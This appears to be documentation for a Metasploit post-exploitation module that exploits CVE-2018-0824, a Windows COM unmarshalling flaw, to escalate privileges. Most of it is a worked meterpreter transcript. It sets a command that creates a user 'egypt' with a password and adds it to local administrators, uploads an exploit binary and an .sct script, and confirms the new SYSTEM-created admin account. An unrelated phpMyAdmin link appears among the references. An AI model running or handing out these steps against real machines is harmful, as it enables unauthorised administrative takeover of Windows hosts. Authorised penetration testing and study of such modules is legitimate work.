 ## Overview
This is a post exploitation module for local privilege escalation bug
which exists in Microsoft COM for windows when it fails to properly
handle serialized objects.

* https://www.phpmyadmin.net/downloads/
* https://github.com/codewhitesec/UnmarshalPwn/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0824

## Module Options

"COMMAND" This command will be executed on successful escalation.</br>
"SESSION" The session to run this module on.

## Limitations

The payload will not spawn ant independent session it simply creates process with the system privilege.
If the system is not vulnerable, then payload will execute but new process will not spawn.

## Verification steps

If you want to confirm the vulnerability before you add user or perform any other sensitive action. 

1. `set COMMAND /s notepad.exe` 
2. `run` 

Confirmation:

Then go to meterpreter session and confirm running process (ps)
If you see notepad.exe running as SYSYEM then that is as indication of vulnerable system.

## Usage

```
meterpreter > sysinfo
Computer        : WIN10X64-1703
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > execute -f cmd.exe -i -H
Process 4868 created.
Channel 7 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>exit           
exit
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/escalate/unmarshal_cmd_exec) > show options

Module options (post/windows/escalate/unmarshal_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMMAND                        no        The command to execute as SYSTEM (Can only be a cmd.exe builtin or Windows binary, (net user /add %RAND% %RAND% & net localgroup administrators /add <user>).
   EXPLOIT_NAME                   no        The filename to use for the exploit binary (%RAND% by default).
   PATH                           no        Path to write binaries (%TEMP% by default).
   SCRIPT_NAME                    no        The filename to use for the COM script file (%RAND% by default).
   SESSION                        yes       The session to run this module on.

msf5 post(windows/escalate/unmarshal_cmd_exec) > set command 'net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt'
command => net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
msf5 post(windows/escalate/unmarshal_cmd_exec) > set verbose true
verbose => true
msf5 post(windows/escalate/unmarshal_cmd_exec) > run

[!] SESSION may not be compatible with this module.
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] exploit path is: C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] script path is: C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] command is: net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] Uploading Script to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Creating the sct file with command net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] script_template_data.length =  306
[*] Writing 376 bytes to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct to target
[*] Script uploaded successfully
[*] Uploading Exploit to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Exploit uploaded on WIN10X64-1703 to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Launching Exploit...
[*] Query for IStorage
Call:  Stat
End:  Stat
Query for IMarshal
Call:  GetMarshalSizeMax
Unknown IID: {ECC8691B-C1DB-4DC0-855E-65F6C551AF49} 0000017F6C3E05B0
Query for IMarshal
Call:  GetUnmarshalClass
Call:  GetMarshalSizeMax
Call:  MarshalInterface
[+] Exploit Completed
[*] C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Post module execution completed
msf5 post(windows/escalate/unmarshal_cmd_exec) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > execute -f cmd.exe -i -H
Process 1780 created.
Channel 11 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user 
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           egypt                    
Guest                    msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
egypt
msfuser
The command completed successfully.


C:\Users\msfuser\Downloads>

```
